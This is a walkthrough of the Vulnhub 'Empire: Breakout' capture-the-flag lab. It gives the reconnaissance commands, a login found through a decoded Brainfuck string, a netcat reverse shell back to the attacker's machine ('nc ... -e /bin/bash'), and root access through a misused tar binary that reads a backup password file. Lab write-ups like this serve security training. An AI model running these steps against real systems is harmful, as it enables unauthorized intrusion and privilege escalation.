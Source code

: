 Vulnhub - Empire: Breakout Walkthrough <br>
Youtube Link for the walkthrough: https://www.youtube.com/watch?v=HGDcGcCBzFg <br>
<br>
<br>
First find the IP Address of the machine <br>
$ sudo arp-scan -l <br>
<br>
After getting the IP address of the machine, do a nmap scan <br>
$ nmap -sC -sV -A -p- <ip_address_vulnhub_machine> <br>
you will find 5 ports open - 80, 139, 445, 10000, 20000 <br>
Take a look at the website http://<ip_address_vulnhub_machine> <br>
Here you will find an Apache2 Debian Default page <br>
now in this page, check the source code <br>
at the end you will find an encoded text, you can decode it to the programming language BrainFuck, and get the output <br>
now you go to http://<ip_address_vulnhub_machine>:20000, this page requires a username and password <br>
for this you can enumerate the username using 'enum4linux' <br>
$ enum4linux -a <ip_address_vulnhub_machine> <br>
here you will get the username 'cyber' <br>, and use the password that was decoded earlier <br>
now after the login, go to Usermin -> login -> command shell <br>
here you can put the commands. <br>
you can easily get the user flag and the tar file <br>
now to spawn a shell, we will use netcat <br>
<br>
On Kali Machine <br> 
$ nc -lvnp 1234 <br>
On Vulnhub Hosted Webpage <br>
> nc <ip_kali_VM> 1234 -e /bin/bash <br>
<br>
you will get the shell on your kali terminal then <br>
to spawn a shell <br>
use > python3 -c 'import pty; pty.spawn("/bin/bash")' <br>
$ pwd <br>
$ cd /var -> go to backups folder and you will find the password file, but you will not have the permission to view the file <br>
copy the file to /tmp and then use <br>
$ /home/cyber/tar -cvf file.tar /var/backups <br>
now when the file is copied in the /tmp folder you can decompress the file <br>
$ tar -xvf file.tar <br>
now you can read the contents of the file and get the contents, which is the root password <br>
use it to login to the root <br>
$ su - root <br>
while in root you can easily get the root flag <br>
